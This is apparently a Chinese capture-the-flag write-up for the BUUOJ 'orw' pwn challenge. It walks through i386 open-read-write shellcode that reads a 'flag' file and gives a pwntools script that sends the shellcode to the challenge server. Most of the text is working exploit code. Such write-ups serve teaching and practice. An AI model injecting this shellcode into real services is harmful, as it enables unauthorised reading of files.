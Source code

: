 ```
```

也可以手撸汇编

打开flag文件，sys_open(file,0,0)；系统调用号为5

```
push 0x0  			#字符串结尾
push 0x67616c66		#'flags'
mov ebx,esp			
xor ecx,ecx			#0
xor edx,edx			#0
mov eax,0x5			#调用号
int 0x80			#sys_open(flags,0,0)
```


读flag文件，sys_read(3,file,0x100)；系统调用号为3

```
mov eax,0x3; 
mov ecx,ebx;	# ecx = char __user *buf 缓冲区，读出的数据-->也就是读“flag”
mov ebx,0x3;	# 文件描述符 fd:是文件描述符 0 1 2 3 代表标准的输出输入和出错,其他打开的文件
mov edx,0x100;	#对应字节数
int 0x80;
```


输出flag文件内容，sys_write(1,file,0x30)；系统调用号为4

```
mov eax,0x4;	# eax = sys_write
mov ebx,0x1;	# ebx = unsigned int fd = 1
int 0x80;
```

exp：

```
#-*- coding:utf-8 -*-
from pwn import *
context(arch='i386', os='linux', log_level='debug')
#p = process("./orw")
p = remote('node3.buuoj.cn', 27702)
shellcode = asm("""
push 0
push 0x67616c66
mov eax, 0x5
mov ebx, esp
xor ecx, ecx
xor edx, edx
int 0x80
mov eax, 0x3
mov ebx, 0x3
mov ecx, esp
mov edx, 0x100
int 0x80
mov eax, 0x4
mov ebx, 1
mov ecx, esp
mov edx, 0x100
int 0x80
""")
p.sendline(shellcode)
p.interactive()
```
